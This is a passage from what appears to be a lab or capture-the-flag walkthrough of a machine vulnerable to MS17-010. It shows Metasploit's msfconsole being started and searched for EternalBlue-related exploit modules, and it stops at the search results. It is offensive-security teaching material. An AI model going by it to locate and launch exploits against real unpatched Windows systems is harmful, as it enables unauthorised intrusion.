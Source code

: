 ```bash

```
{% endraw %}

<br />
Notice the vuln scripts says this machine is vulnerable to MS17-010.  Read the <a href="https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010">Microsoft Security Bulletin</a> if it interests you.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/blue/bulletin.png" title="Microsoft Security Bulletin" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Start msfvenom and use the q option to supress the ascii art.

{% raw %}
```bash
┌──(sec㉿kali)-[~]
└─$ msfconsole -q                                                                                                      
msf6 > 
```
{% endraw %}

<br />
Search msfconsole for the ms17-010 exploit.

{% raw %}
```bash
msf6 > search ms17-010

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2            .                .        .      .
   5     \_ target: Windows 8                         .                .        .      .
   6     \_ target: Windows 8.1                       .                .        .      .
   7     \_ target: Windows Server 2012               .                .        .      .
   8     \_ target: Windows 10 Pro                    .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation  .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   11    \_ target: Automatic                         .                .        .      .
   12    \_ target: PowerShell                        .                .        .      .
   13    \_ target: Native upload                     .                .        .      .
   14    \_ target: MOF upload                        .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   16    \_ AKA: ETERNALROMANCE                       .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   18    \_ AKA: ETERNALBLUE                          .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   21    \_ AKA: ETERNALROMANCE                       .                .        .      .
   22    \_ AKA: ETERNALCHAMPION                      .                .        .      .
```
